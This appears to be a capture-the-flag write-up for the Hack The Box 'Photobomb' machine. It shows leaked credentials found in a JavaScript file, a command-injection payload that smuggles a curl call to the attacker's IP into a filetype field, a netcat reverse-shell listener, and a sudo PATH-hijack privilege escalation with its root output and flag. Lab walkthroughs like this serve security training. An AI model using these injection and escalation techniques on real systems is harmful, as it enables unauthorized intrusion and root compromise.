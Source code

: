 ```yaml
---
title: 'Photobomb Writeup'
excerpt: 'Hackthebox Photobomb boot to root writeup'
coverImage: '/assets/blogs/Photobomb.png'
date: '19-12-2022'
---
```

<h1> Hackthebox Photobomb Writeup </h1>
## Add Domain to Hosts file.
***

Photobomb uses a domain name of ````photobomb.htb````.
```
sudo vi /etc/hosts 
```
and add
```
10.10.11.182  photobomb.htb
```
After visiting to the site, there is a login page present which is 
```
http://photobomb.htb/printer
```
When reading the source code I found a ```photobomb.js``` file . </br>

![image](https://user-images.githubusercontent.com/68991993/208419660-22f2e72b-e5ef-4c91-a077-01c87fdb3d52.png) </br>

Suprisingly the photobomb.js file have login details of the site. </br>

![image](https://user-images.githubusercontent.com/68991993/208420206-d3ea6f2e-f75d-4236-a303-f8a80d9dd8fb.png) </br>

## Login 
I logged in using the url ```http://pH0t0:b0Mb!@photobomb.htb/printer``` </br>

![image](https://user-images.githubusercontent.com/68991993/208422056-5ab9d7eb-6b4a-4c63-91e6-c9acd70e67c7.png)
</br>

## Capturing request using burpsuite.
These are the parameters sent to server. I checked all of them for command injection and found that filetype is vulnerable. 

![image](https://user-images.githubusercontent.com/68991993/208422257-76721764-f14f-4b66-b9a9-c00beb37dd6a.png) </br>
![image](https://user-images.githubusercontent.com/68991993/208429522-b43908d6-18ec-4416-b3e5-76f4baf982ef.png) </br>

To verify that i used curl to send a request to my linux machine. 
1) First started a python server. </br>
 
![image](https://user-images.githubusercontent.com/68991993/208430441-51549e70-c1d9-47a3-933c-1b17cfc3b77d.png) </br>
2) Sent the request in burp using payload 

``` filetype=jpg;curl -XGET 10.10.14.105:8000``` </br>

![image](https://user-images.githubusercontent.com/68991993/208430723-d31e4425-e63e-4d79-9df3-b8ac1d4f2a60.png) </br>

3) Got request to my machine </br>

![image](https://user-images.githubusercontent.com/68991993/208430822-137fbb25-13ac-418a-b909-f90fb378526f.png) </br>

so the command injection is comfirmed and we need to get a reverse shell now.

## Reverse Shell
1) Start a listener </br>
``` sudo netcat -lvnp 9001 ``` </br>
![image](https://user-images.githubusercontent.com/68991993/208432411-7ad35f1a-9c17-4834-8634-b45ab42f1db3.png) </br>

2) Create a payload and url encode it. I used revshells.com to create a python reverse shell. </br>
 
![image](https://user-images.githubusercontent.com/68991993/208433090-ea7b7fe2-d164-4cf4-b0c5-323ee99e2404.png) </br>
![image](https://user-images.githubusercontent.com/68991993/208433241-ea3a1d4d-8760-4ea4-8e52-a93e973326e2.png) </br>

3) Got reverse shell </br>

![image](https://user-images.githubusercontent.com/68991993/208432854-6a3d99ec-1cd9-4a23-8c52-339a5143bc25.png) </br>


## User Flag

![image](https://user-images.githubusercontent.com/68991993/208433730-09e14f80-8757-4a7b-b8fc-2dee3cb61f38.png)

## Root Flag

For the root flag we need to do privilege escalation.
1) Check the sudo rights of user
``` 
$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
2) Reading the /opt/cleanup.sh file
```
$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
3) We can take advantage of the fact that we can change variables such as the path to take a custom find command, and under the context of sudo our find will be executed as root For this we will create a find file that is worth bash and we will give it execution permissions

```
$ echo bash > find
$ chmod +x find 
```
4) Now by changing the path variable we execute the script and get root </br>
```
$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# ls
1  find  log  photobomb.sh  public  resized_images  server.rb  source_images
root@photobomb:/home/wizard/photobomb# cd /
root@photobomb:/# ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   srv   tmp  var
root@photobomb:/# cd root
root@photobomb:~# ls
root.txt
root@photobomb:~# cat root.txt
8380325b1ea2d19343bb97b83ab03359
root@photobomb:~# 
```





